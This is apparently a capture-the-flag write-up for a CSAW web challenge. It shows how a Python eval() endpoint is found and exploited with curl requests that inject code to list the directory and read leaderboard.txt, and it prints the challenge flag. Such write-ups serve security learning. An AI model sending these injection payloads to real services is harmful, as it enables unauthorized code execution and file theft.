




Challenge Description : yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!


- Enumeration :



The main page consists of a multiple input fields, but if we just enter the name of both players and click 'Submit' the game starts.


Also, at the bottom of the page we can see 'Seeing something suspicious? click here!' 

On clicking the hyperlink, we are taken to a page which has a "Report For Cheating" input field. I just entered "test" into the field to see how it responds. This is what happened : 



The term "undefined" looked suspicious. And hence, now it was time for the source code to reveal some important stuff.

The source code contains two functions "get_eval()" and "deep_eval()" for the route /get_eval which accepts POST requests.

1. get_eval() Function :
It attempts to extract the 'expr' field from the incoming JSON data (through request.json).
The extracted expression (expr) is passed to the deep_eval() function, which will evaluate the expression.



3. deep_eval() Function :
This is a recursive function that attempts to evaluate the expression passed to it.
If the evaluation is successful, the function calls itself recursively with the newly evaluated expression (nexpr) until no further evaluation can be performed (i.e., eval() no longer transforms the expression).




To test this, let's use CURL to send a POST request to the endpoint as follows : 

```
curl -X POST https://backcourts.ctf.csaw.io/get_eval \    
-H "Content-Type: application/json" \     
-d '{"expr": "7*4"}'
```


As you can see, it evaluates the expression and prints the result.


2) Exploitation

Let's try and see if we can get the function to run a Python code instead of simply evaluating Math expressions. Hence, we can send a CURL request as follows :

```
curl -X POST https://backcourts.ctf.csaw.io/get_eval \
  -H "Content-Type: application/json" \
  -d '{"expr": "__import__(\"os\").listdir(\".\")"}'
```

Here's the result :


Wow! We got exactly what we wanted. Now, we can see a file named 'leaderboard.txt'. 

We can try to exploit this behaviour of the program to read the 'leaderboard.txt' file. (which I thought might contain the flag)

Let's send another request, attempting read its contents :

```
curl -X POST https://backcourts.ctf.csaw.io/get_eval \
     -H "Content-Type: application/json" \
     -d '{"expr": "open(\"leaderboard.txt\").read()"}'
```


Here's the final result, and we can see the flag!

`FLAG : csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}`
